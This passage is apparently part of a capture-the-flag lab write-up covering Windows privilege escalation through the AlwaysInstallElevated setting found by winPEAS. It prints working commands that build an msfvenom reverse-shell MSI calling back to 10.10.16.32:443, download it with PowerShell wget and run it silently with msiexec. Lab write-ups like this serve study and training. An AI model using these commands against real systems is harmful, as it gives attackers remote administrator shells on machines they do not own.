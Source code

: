 
## ROOT.

### enumeration.

After I got access as the user `phoebe` I tried to enumerate manualy. But couldn't.

### winPEAS

I used the tool `winPEAS` to enumerated some information. And find something.

```text
[+] Checking AlwaysInstallElevated
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated                                             
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!  
```

### AlwaysInstallElevated
Looks like there is a `AlwaysinstallElevated`. What this means, it means any user can install `.msi` file as `administrator` and I can use it to get privilige scalation.

I created my own.

``` text
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.32 LPORT=443 -f msi -o priv.msi
```

Now I could pass the file to the machine.

```text
powershell wget http://10.10.16.32/priv.msi -outfile priv.msi
```

After I passed the file, I started listening on `port 443` and execute the `.msi` file.

```text
msiexec /quiet /qn /i rev.msi
```

<img src="/assets/img/love/10.png">
<img src="/assets/img/love/11.png">

Now The machine is mine.